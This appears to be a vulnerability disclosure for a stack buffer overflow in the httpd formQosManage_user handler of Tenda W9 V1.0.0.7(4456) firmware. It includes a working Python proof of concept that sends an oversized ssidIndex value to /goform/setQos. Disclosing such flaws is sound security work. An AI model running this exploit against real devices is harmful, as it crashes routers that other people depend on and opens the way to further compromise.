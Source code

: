 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formQosManage_user` function of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `var_30`, which will cause stack buffer overflow. 

![code](./code.png)
## POC
```python
import requests
from pwn import *
url = "http://192.168.0.1/goform/setQos"

payload = { 
    'ssidIndex': cyclic(5000),
    'ssid': '2.4G',
    'qosmode': '2'
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.